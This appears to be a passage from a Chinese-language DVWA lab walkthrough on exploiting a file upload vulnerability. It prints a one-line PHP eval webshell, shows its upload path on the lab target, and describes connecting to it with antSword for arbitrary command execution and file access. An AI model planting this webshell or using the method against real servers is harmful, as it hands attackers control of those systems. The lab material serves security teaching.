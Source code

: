 文件上传漏洞的利用是有限制条件的,首先当然是要能够成功上传木马文件,其次上传文件必须能够被执行,最后就是上传文件的路径必须可知.不幸的是,这里三个条件全都满足.

上传文件 shell.php(一句话木马)
```php
<?php @eval($_POST['ant']); ?>
```

上传成功,并且返回了上传路径

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa24.png)

注:这里推荐用开源的 [antSword](https://github.com/AntSwordProject/antSword) 连接webshell,安装步骤这里略

`http://<IP地址!!!>/dvwa/hackable/uploads/shell.php`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa25.png)

然后 antSword 就会通过向服务器发送包含 ant 参数的 post 请求,在服务器上执行任意命令,获取 webshell 权限.可以下载、修改服务器的所有文件.
